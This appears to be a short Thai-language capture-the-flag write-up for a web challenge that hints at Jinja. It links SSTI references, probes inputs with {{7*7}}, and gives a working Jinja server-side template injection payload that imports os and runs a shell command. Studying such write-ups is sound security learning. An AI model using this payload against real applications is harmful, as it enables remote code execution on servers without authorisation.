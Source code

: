 
vacine web application

ชื่อใบ้มาว่า jinja

jinja คือ template engine บน python ใช้แสดง หน้าเว็บแบบ dynamic ตาม user input

![alt text](image-3.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

ผมเลยใส่ {{7*7}} ทุก input feild


![alt text](image.png)


![alt text](image-1.png)


https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


![alt text](image-2.png)

![alt text](image-4.png)